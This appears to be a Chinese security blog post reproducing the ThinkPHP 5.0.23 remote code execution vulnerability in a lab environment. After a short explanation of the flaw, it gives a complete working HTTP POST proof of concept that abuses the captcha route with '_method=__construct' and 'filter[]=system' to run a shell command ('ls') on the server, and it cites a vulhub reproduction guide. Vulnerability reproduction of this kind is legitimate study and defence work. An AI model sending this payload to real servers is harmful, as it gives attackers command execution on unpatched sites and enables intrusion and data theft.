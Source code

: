 ```yaml
---
title: ThinkPHP5 5.0.23 远程代码执行漏洞
date: 2020-06-14 13:42:51
categories: 漏洞复现
tags: ThinkPHP
---
```


#### 背景

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

<!--more-->

####  复现过程

发送如下POC

```http
POST /index.php?s=captcha HTTP/1.1
Host: IP:端口
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```

![](http://cdn.laohuan.art/2020-06-14_13-39-28.png)

#### 参考链接

<https://github.com/vulhub/vulhub/blob/master/thinkphp/5.0.23-rce/README.zh-cn.md/>